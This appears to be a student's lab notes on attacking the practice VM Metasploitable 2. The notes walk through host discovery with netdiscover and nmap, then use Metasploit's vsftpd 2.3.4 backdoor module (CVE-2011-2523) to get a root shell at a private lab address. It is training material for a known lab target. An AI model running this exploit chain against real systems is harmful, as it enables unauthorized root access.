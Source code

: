 ## Scanning Metasploit
- netdiscover
- nmap



##### We're going to be running scans to hack metasploitable 2

We're also going to be using the red hat field manual. 

n84398
equals.mc2



https://hackerone.com/bug-bounty-programs  
https://www.bugcrowd.com/bug-bounty-list/  

  
Red-Team-Field-Manual/dp/1075091837/ref=sr_1_1?crid=3LZOESTKAIS7M&dib=eyJ2IjoiMSJ9.xLp65lZ5xizvH1JTcYGjdy_S9K2di8WrQO913DXs2SiBZ95T-mZ_oWPvFvIKjakM7ugRbUNEF0Dp7J76dY8NScsdLMa0ZbbbEMHP3fq87vMLQZ_-NwA4-0tLuwVC8WmR-BBuxHdXZ9E0NFLulUVd_cqQlNblONJxiwIsY9e77ympgmjNSzgaQiEQ83nWk2scwl_unpaV55x0jJo47FYjQjiZHIe18lwycHkiRRUQXnQ.3k2HQDjo7SW1kCFRHolMc74IciP0FpbXMPRVLdsyJLo&dib_tag=se&keywords=rtfm&qid=1729023794&sprefix=rtfm%2Caps%2C716&sr=8-1

## To find nodes on the network

~# netdiscover

(pretend we find 10.0.2.4)

~# ping 10.0.2.4

(Verify it's there, get more info)

## To perform scan

nmap -sV 10.0.2.4

- We'll find open ports and services
- We decided to attack VSFTPD 2.3.4
- We learned it's a Linux machine

## To see which vulnerabilities we can exploit

msfconsoleuse~# searchsploit vsftpd 2.3.4

(We should get two options, one of them being metasploit)

## Load Metasploit

~# msfconsole

## Search vulnerability

msf6 > search vsftpd 2.3.4

- We'll see 1 result with an ID of 0

## Loads exploit

msf6 > use exploit/unix/ftp/vsftpd_234_backdoor

- The path for this exploit is found in the search command

msf6 > show options

- This shows what we need to input before the command can work
- It asks to set RHOSTS

msf6> set RHOSTS 10.0.2.4

## Runs exploit

msf6 > run

- We should then be able to connect
- No prompt?

## Commands to run once inside

whoami

- root
- pwd
- /


This is not a reverse shell because there's no listener. This is a backdoor

https://github.com/rapid7/metasploitable3  
https://nvd.nist.gov/vuln/detail/CVE-2011-2523

Meta: 192.168.100.11
kali: 192.168.100.4